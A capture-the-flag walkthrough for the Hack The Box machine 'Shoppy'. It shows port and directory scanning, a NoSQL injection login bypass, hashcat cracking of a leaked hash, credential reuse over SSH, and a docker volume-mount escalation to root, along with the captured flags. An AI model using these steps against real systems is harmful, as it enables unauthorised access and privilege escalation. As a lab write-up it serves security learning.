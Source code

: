 ![Shoppy.PNG](/assets/Machines/Easy/Shoppy/shoppy.jpg)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.180
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.180
```

**Output**
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat
```

3. Host a machine in `/etc/hosts`
   
![Shoppy-hosts.PNG](/assets/Machines/Easy/Shoppy/shoppt-hosts.PNG)

4. Web Page
![Shopyy-web.PNG](/assets/Machines/Easy/Shoppy/shoppy-web.PNG)


5. Use **gobuster** to find directories
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

**Output**
```bash
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]  
```

6. Do **No Sql Injection Attack** --- `admin'||'1==1`
7. In Search option write `admin` and `josh`
![Shoppy-admin.PNG](/assets/Machines/Easy/Shoppy/shoppy-admin.PNG)
![Shoppy-josh.PNG](/assets/Machines/Easy/Shoppy/shoppy-josh.PNG)

8. Crack with **Hashcat** Josh's password
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| hashcat -m 0 jhon.txt ../rockyou.txt
```   
  
```bash        
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─# hashcat -m 0 jhon.txt --show        
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

9. Use **gobuster** again to search vhosts
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50
```

**Output**
```bash
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
```

10. Put vhost found in `/etc/hosts`
    
![Shoppy-vhost.PNG](/assets/Machines/Easy/Shoppy/shoppy-vhost.PNG)

11. Visit the vhost found and put credentials of **Josh**
12. Look on **Channel** > **Deploy Machine**

![Shoppy-mattermost.JPG](/assets/Machines/Easy/Shoppy/shoppy-mattermost.PNG)

13. Connect to ssh with user jaeger
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| ssh jaeger@10.10.11.180
```

14. In current directory cat a **user flag**
```bash
jaeger@shoppy:~$ cat user.txt
8338caad7b4679f8c1d95b68f15aa6c5
```

15. Use sudo -l to find some important files or binaries to exploit
```bash
jaeger@shoppy:~/Desktop$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

16. cat `/home/deploy/password-manager` and find this lines
```bash
Welcome to Josh password manager!Please enter your master password: SampleAccess granted!
```

17. Run **password-manager** and put 'Sample'
```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

18. Connect to ssh with new credentials
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| ssh deploy@10.10.11.180
```

19. Spawn a `/bin/bash`
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

**Output**
```bash
deploy@shoppy:~$ 
```


20. If you look the message of **Josh** he tell let's use docker to deploy a machine
![Shoppy-message.PNG](/assets/Machines/Easy/Shoppy/shoppy-message.PNG)

21. To get access how root use **https://gtfobins.github.io/** and search **docker**
![Shoppy-gtfo.PNG](/assets/Machines/Easy/Shoppy/shoppy-gtfo.PNG)


22. Run the command
```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
```

23. Cat a **root flag**
```bash
# cd root
# cat root.txt
77845f37157645868120f6d66120bed6
```